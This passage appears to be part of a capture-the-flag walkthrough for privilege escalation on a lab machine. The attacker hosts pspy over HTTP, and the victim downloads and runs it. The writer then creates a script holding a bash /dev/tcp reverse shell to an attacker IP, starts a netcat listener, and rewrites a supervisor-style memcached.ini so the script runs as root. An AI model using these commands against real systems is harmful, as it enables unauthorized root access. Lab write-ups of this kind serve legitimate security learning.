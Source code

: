 ```bash
./procmon.sh
# ps: bad -o argument 'command'
```

> **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/pspy64 ./pspy
python3 -m http.server 80
md5sum pspy
```

> **Victime Machine**:

```bash
wget http://10.10.14.14/pspy
md5sum pspy
chmod +x pspy
./pspy
# 2025/05/21 21:28:01 CMD: UID=0    PID=24765  | sudo -u nobody /usr/bin/node /home/professor/memcached.js

cat memcached.js
# :(
cat memcached.ini
echo "oldboy" > memcached.ini
vi memcached.ini
# :(
touch pwn3d.sh
vi pwn3d.sh
cat pwn3d.sh
```

> **pwn3d.sh**:

```bash
#!/bin/bash

bash -c 'bash -i >&/dev/tcp/10.10.14.14/443 0>&1'
```

> **Attacker Machine**:

```bash
nc -nlvp 443
```

> **Victime Machine**:

```bash
rm memcached.ini
touch memcached.ini
vi memcached.ini
```

> **memcached.ini**:

```bash
[program:memcached]
command = sudo -u root bash /tmp/pwn3d.sh
```
